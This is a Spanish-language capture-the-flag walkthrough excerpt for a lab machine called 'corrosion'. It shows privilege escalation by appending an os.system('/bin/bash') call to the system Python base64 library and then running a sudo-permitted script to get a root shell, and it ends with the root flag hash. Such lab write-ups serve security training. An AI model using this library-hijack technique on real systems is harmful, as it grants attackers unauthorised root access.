 
6. Vemos que hay dentras de este archivo

```bash
cat /home/randy/randombase64.py
```

```plaintext
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```
7. Buscamos donde esta base64.py y editamos para meter un bash

```bash
locate base64.py
```

```bash
nano /usr/lib/python3.8/base64.py
```
Añadimos estas dos lineas en el codigo:

```plaintext
import os

os.system("/bin/bash")
```
8. Ejecutar el archivo con permisos sudo para consegir la shell de root

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py
```

## Consegido acceso al root

Podremos ver todos los archivo que puede ver root

```plaintext

root@corrosion:/home/randy# cd                                                             
root@corrosion:~# ls -la                                                                   
total 44                                                                                   
drw-------  5 root root 4096 Sep 20  2021 .                                                
drwxr-xr-x 20 root root 4096 Sep 16  2021 ..                                               
-rw-r--r--  1 root root    5 Sep 20  2021 .bash_history                                    
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc                                          
drwx------  2 root root 4096 Aug 19  2021 .cache                                           
drwxr-xr-x  3 root root 4096 Sep 16  2021 .local                                           
-rw-r--r--  1 root root  161 Dec  5  2019 .profile                                         
-rw-------  1 root root    0 Sep 17  2021 .python_history                                  
-rw-r--r--  1 root root   33 Sep 17  2021 root.txt                                         
-rw-r--r--  1 root root   66 Sep 16  2021 .selected_editor                                                          
drwxr-xr-x  3 root root 4096 Sep 16  2021 snap                                                                      
-rw-r--r--  1 root root  181 Sep 17  2021 .wget-hsts                                                                
root@corrosion:~# cat root.txt                                                                                      
2fdbf8d4f894292361d6c72c8e833a4b  
```






